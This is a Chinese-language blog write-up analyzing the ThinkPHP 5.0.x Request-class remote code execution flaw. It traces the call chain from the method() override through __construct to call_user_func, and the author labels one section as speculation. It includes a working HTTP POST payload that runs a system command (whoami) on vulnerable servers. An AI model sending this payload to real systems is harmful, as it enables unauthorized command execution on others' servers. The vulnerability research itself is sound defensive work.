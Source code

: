```yaml
---
title: ThinkPHP 5 核心类Request远程代码执行漏洞分析
published: 2024-09-23
description: "AVD-2021-883381漏洞分析, 以thinkphp5.0.23版本为例"
tags: ["php"]
category: research
draft: false
---
```


### 0x00 漏洞简介
由于ThinkPHP5框架对Request类的method处理存在缺陷, 导致黑客构造特定的请求，可直接Getshell.
影响版本: 5.0.0~5.0.23
影响条件: 使用thinkphp完整版或非完整版开启了debug模式

### 0x01 payload
```http
POST /public/index.php HTTP/1.1
Host: target:port
Content-Length: xxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami
```

:::warning
不同版本的thinkphp的payload可能会有不同
:::

### 0x02 漏洞流程图
本地采用的复现环境为github仓库拉取的官方thinkphp5.0.23版本, 向/public/index.php发送payload, 漏洞流程图如下:

![img](asset/thinkphp-drawio.png)

上图已经可以很好的展示打入漏洞payload所经过的流程, 简述一下漏洞产生原因就是: 在debug模式下, thinkphp会记录请求参数, 从而调用$request->param()方法, 而param()方法最终会层层调用执行到包含命令执行函数call_user_func函数的方法filterValue, 而因为Request类中method方法未对请求参数进行充分过滤, 且还包含变量覆盖方法__construct, 从而导致了恶意payload可以最终利用call_user_func函数实现远程RCE.

### 0x03 调试过程问题记录
下面记录调试时比较疑惑的几个问题:
1. 为什么能通过method方法走进__construct方法里?
先看method方法:
```php
public function method($method = false)
{
    if (true === $method) {
        // 获取原始请求类型
        return $this->server('REQUEST_METHOD') ?: 'GET';
    } elseif (!$this->method) {
        if (isset($_POST[Config::get('var_method')])) {
            $this->method = strtoupper($_POST[Config::get('var_method')]);
            $this->{$this->method}($_POST);
        } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
            $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
        } else {
            $this->method = $this->server('REQUEST_METHOD') ?: 'GET';
        }
    }
    return $this->method;
}
```

再跟调用流程的时候很疑惑的是为什么明明payload传入的是_method=__construct, 却会在 `$this->{$this->method}($_POST);` 这一步走进__construct方法.
关键在于Config::get('var_method')方法, 这个函数最终会从配置文件config.php中读取配置, 而var_method对应的默认值为**_method**, 因此在调用method方法时, $this->method = strtoupper($_POST[Config::get('var_method')]); 这一步会将_method赋值给$this->method, 从而在后续调用$this->{$this->method}($_POST);时, 调用的是__construct方法.

![img](asset/config.png)

2.暂定
:::warning
因为文章于调试完成后所写, 当时调试时想到的一些不理解的地方有一些忘记了...,后续如果遇到了想起来再补充
:::

### 0x04 漏洞发现思路复现
thinkphp REQUEST类method方法这个洞的发现感觉很不可思议, 需要满足能够最终可以调用到call_user_func的filterValue方法, 因为需要可以控制传入到filter, 还需要找到可以完成变量覆盖的方法__construct, 恰好Request类中的method方法又没有对传入的参数进行充分过滤, 可以覆盖默认配置变量从而执行到__construct中完成变量覆盖。下面是猜测的漏洞发现思路:

从包含call_user_func的filterValue方法入手, 全局查看哪个方法引用了filterValue方法, 发现只有两个, 且均位于Request.php中, 分别是
```php
public function cookie($name = '', $default = null, $filter = '')
public function input($data = [], $name = '', $default = null, $filter = '')
```
因为从github中拉取下来的thinkphp的源码没有任何地方对cookie方法做过引用, 因此此时存在唯一的向上路径, 即input方法, 继续向上找input方法的引用, 因为input的引用有比较多, 向上查看就只有靠耐心了(要找到一个能够控制传入参数的地方), 一直向上找最终发现了method方法存在漏洞(仅猜测)。又或者可能是先发现了Request类中的method方法存在漏洞, 又依次向下找能够利用到的函数, 为了最终能够实现RCE又从call_user_func向上找, 这样双向奔赴...

:::warning
0x04 这一节是完全的猜测, 过程并不全, 也没有具体的证据, 仅对代码审计挖掘漏洞时的挖掘思路进行猜测拓展
:::